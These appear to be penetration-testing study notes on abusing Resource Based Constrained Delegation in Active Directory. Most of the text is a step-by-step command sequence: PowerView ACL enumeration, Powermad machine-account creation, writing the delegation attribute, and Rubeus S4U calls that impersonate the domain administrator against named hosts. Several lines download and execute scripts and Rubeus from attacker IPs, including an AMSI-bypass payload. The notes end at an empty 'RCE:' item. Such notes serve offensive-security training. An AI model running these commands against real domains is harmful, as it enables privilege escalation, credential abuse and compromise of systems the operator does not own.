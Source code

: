 
### Resource Based Constrained Delegation (2012)
- switches it around with approval from the backend service via msDS-AllowedToActOnBehalfOfOtherIdentity property
- still uses S4U2Self and S4U2Proxy, but KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.
- the frontend service must have an SPN set in the domain
    - any attack against RBCD needs to happen from a computer account or a service account with a SPN
- same attack can be used if we compromise a frontend service that has its SID configured in the msDS-AllowedToActOnBehalfOfOtherIdentity property of a backend service

- **Attack**:  If you have write equivalent privileges over a Computer account you can obtain privileged access in that machine by enabling RBCD
    - **Can be used to get access as any user (including DA) to the computer**

- Enumeration:
    - finding computers we have rights over:
        - `Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}`

- STEP 1: Using GenericWrite to edit msDS-AllowedToActOnBehalfOfOtherIdentity:
        - also works if we have GenericAll/WriteProperty/WriteDACL access
    - allow my arbitrary new computer account that can delegate to it
    - Checking new computer account quota limit:
        - `Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota`
    - Creating new computer object w/ Powermad.ps1:
        - `. .\powermad.ps1`
        - `(new-object system.net.webclient).downloadstring('http://192.168.49.121/powermad.ps1') | IEX`
        - `New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)`
        - `Get-DomainComputer -Identity myComputer`
    - Generating, Converting, and setting SID & SD & DACL on the backend service:
        - `$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid`
        - `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"`
        - `$SDbytes = New-Object byte[] ($SD.BinaryLength)`
        - `$SD.GetBinaryForm($SDbytes,0)`
        - `Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
    - Verifying DACL:
        - `$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
        - `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0`
        - `$Descriptor.DiscretionaryAcl`
        - `ConvertFrom-SID S-1-5-21-......`

- STEP 2: Exploitation:  
    - *Run Rubeus from memory:
        - `(new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX`
        - `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe')`
        - `$assem = [System.Reflection.Assembly]::Load($data)`
        - `[Rubeus.Program]::Main("s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt".Split())`
        - `[Rubeus.Program]::Main("s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/jump09.ops.comply.com /altservice:host /ptt".Split())`
        - `klist`
    - convert hash for new computer:  `.\Rubeus.exe hash /password:h4x`
    - Exploit:  `.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt`
    - Confirm:
        - `klist`
        - `dir \\appsrv01.prod.corp1.com\c$`
        - RCE:  